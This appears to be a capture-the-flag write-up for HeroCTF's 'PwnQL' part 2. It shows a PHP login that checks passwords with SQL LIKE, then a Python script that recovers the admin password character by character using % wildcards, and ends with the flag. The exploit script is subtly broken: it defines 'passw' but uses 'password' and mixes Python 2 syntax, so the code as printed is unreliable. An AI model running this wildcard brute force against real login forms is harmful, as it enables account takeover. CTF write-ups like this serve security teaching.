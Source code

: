 ## Description

![image](https://user-images.githubusercontent.com/65862031/116080678-ffc08d80-a6b6-11eb-8914-175f28675a64.png)

#### This challenge is the second part of PwnQL series and we need to extract the password for admin.
#### The code is same as that of before.


### PHP Code:

```
<?php

require_once(__DIR__  . "/config.php");

if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $sql = "SELECT * FROM users WHERE username = :username AND password LIKE :password;";
    $sth = $db->prepare($sql, array(PDO::ATTR_CURSOR => PDO::CURSOR_FWDONLY));
    $sth->execute(array(':username' => $username, ':password' => $password));
    $users = $sth->fetchAll();

    if (count($users) === 1) {
        $msg = 'Welcome back admin ! Here is your flag : ' . FLAG;
    } else {
        $msg = 'Wrong username or password.';
    }
}

```
Exploit script

```
#!/usr/bin/env python

import requests
from time import sleep

url = "http://chall1.heroctf.fr:8080/index.php"
chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz@!_"
passw = "S"
for i in range(20):
    for c in chars:
        payload = {
            "username":"admin",
            "password":"{}%".format(password + c)
            }
        sleep(0.5) # Not to overwhelm the server
        res = requests.post(url,data=payload)
        if "Here is your flag" in res.text:
            password += c
            break
        else:
            pass
print "Pass found: {}".format(password)
```
Flag : Hero{S3CUR3P@SS}
